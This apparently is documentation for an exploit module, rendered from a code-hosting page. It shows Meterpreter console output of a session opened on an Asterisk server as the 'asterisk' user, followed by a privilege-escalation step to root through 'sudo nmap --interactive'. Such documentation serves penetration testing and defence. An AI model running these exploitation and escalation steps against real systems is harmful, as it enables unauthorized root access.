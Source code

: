 ```
[*] Sending stage (980808 bytes) to 192.168.205.148
[*] Meterpreter session 1 opened (192.168.205.1:4444 -> 192.168.205.148:32775) at 2020-05-04 12:53:23 -0500
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : asterisk1.local
OS           : CentOS 4.4 (Linux 2.6.9-42.0.2.EL)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 5678 created.
Channel 1 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```

## Privilege Elevation Steps

  Once a shell has been gained as the `asterisk` user, 
  attackers can elevate their privileges to `root` by 
  executing the following commands:

```
sudo nmap --interactive

Starting Nmap V. 4.76 ( http://nmap.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

